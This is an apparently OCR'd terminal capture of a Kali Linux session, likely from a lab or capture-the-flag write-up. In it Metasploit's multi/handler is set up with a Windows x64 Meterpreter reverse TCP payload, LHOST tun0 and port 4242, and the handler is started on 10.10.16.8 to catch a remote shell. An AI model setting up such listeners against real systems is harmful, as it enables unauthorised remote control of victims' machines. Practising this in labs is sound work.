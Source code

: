 ```bash
┌──(kali㉿kali)-[~]
└─$ msfconsole                                                                                        
                                                  
                          ########                  #
                      #################            #
                   ######################         #
                  #########################      #
                ############################
               ##############################
               ###############################
              ###############################
              ##############################
                              #    ########   #
                 ##        ###        ####   ##
                                      ###   ###
                                    ####   ###
               ####          ##########   ####
               #######################   ####
                 ####################   ####
                  ##################  ####
                    ############      ##
                       ########        ###
                      #########        #####
                    ############      ######
                   ########      #########
                     #####       ########
                       ###       #########
                      ######    ############
                     #######################
                     #   #   ###  #   #   ##
                     ########################
                      ##     ##   ##     ##
                            https://metasploit.com

       =[ metasploit v6.3.4-dev                           ]
+ -- --=[ 2294 exploits - 1201 auxiliary - 409 post       ]
+ -- --=[ 968 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Start commands with a space to avoid saving 
them to history
Metasploit Documentation: https://docs.metasploit.com/

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 4242
LPORT => 4242
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.8:4242
```
